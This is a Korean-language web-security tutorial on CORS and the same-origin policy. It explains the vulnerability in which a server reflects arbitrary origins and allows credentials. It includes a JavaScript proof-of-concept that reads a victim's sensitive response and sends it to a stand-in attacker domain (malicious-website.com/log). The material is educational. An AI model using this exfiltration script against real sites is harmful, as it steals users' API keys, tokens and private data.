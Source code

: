 # Cross-Origin Resource Sharing

**CORS**(Cross-Origin Resource Sharing)는 지정된 도메인 외부에 위치한 리소스에 대한 제어된 액세스를 가능하게 하는 브라우저 메커니즘이다. 이것은 동일 출처 정책(same-origin policy, SOP)에 유연성을 확장하고 추가한다. 하지만 웹사이트의 CORS 정책이 제대로 구현 및 구성되지 않은 경우, 도메인 간 공격(cross-domain based attacks)에 대한 가능성도 제공한다. CORS는 CSRF와 같은 출처 간 공격에 대한 보호가 아니다.

## Same-origin policy (SOP)
동일 출처 정책은 웹사이트가 소스 도메인 외부의 리소스와 상호 작용하는 기능을 제한하는 제한적인 교차 출처 사양(cross-origin specification)이다. SOP는 한 웹사이트가 다른 웹사이트로부터 개인 데이터를 훔치는 것과 같은 잠재적으로 악의적인 도메인 간 상호 작용에 대응하여 수년 전에 정의되었다. 일반적으로 도메인이 다른 도메인으로 요청을 발행하는 것은 허용하지만, 응답에 액세스하는 것은 허용하지 않는다.

SOP는 매우 제한적이며 결과적으로 제약 조건을 회피하기 위해 다양한 접근 방법이 고안되었다. 많은 웹사이트들이 전체 교차 출처 액세스(full cross-origin access)가 필요한 방식으로 서브 도메인 또는 서드파티 사이트와 상호 작용한다. CORS를 사용하여 SOP의 통제된 완화가 가능하다.

CORS 프로토콜은 신뢰할 수 있는 웹 출처와 인증된 액세스 허용 여부와 같은 관련 속성을 정의하는 HTTP 헤더 세트를 사용한다. 이들은 브라우저와 접속을 시도하는 교차 출처 웹사이트 사이의 헤더 교환으로 결합된다.

## Vulnerabilities
일부 애플리케이션은 여러 다른 도메인에 대한 액세스를 제공해야 한다. 실수로 인해 기능이 손상될 위험이 있기 때문에 허용된 도메인 목록을 유지하기 위해서는 지속적인 관리가 필요하다. 따라서 일부 애플리케이션은 다른 도메인에서 효과적으로 액세스 할 수 있는 쉬운 경로를 택한다.

이를 수행하는 한 가지 방법은 요청으로부터 `Origin` 헤더를 읽고 요청하는 출처가 허용되는 것을 나타내는 응답 헤더를 포함시키는 것이다.

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

위의 예시는 요청과 이에 대한 응답을 보여준다. 이 헤더는 요청한 도메인에서 액세스가 허용되고 도메인 간 요청에 쿠키가 포함될 수 있으며 세션 내에 처리될 수 있음을 나타낸다.

애플리케이션은 `Access-Control-Allow-Origin` 헤더에 임의의 출처를 반영하기 때문에 모든 도메인이 취약한 도메인의 리소스에 액세스 할 수 있음을 의미한다. 만약 응답에 API Key 또는 CSRF 토큰과 같은 민감한 정보가 포함된다면 웹사이트에 아래의 스크립트를 배치하여 이러한 정보를 검색할 수 있다.

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```

## References
- https://portswigger.net/web-security/cors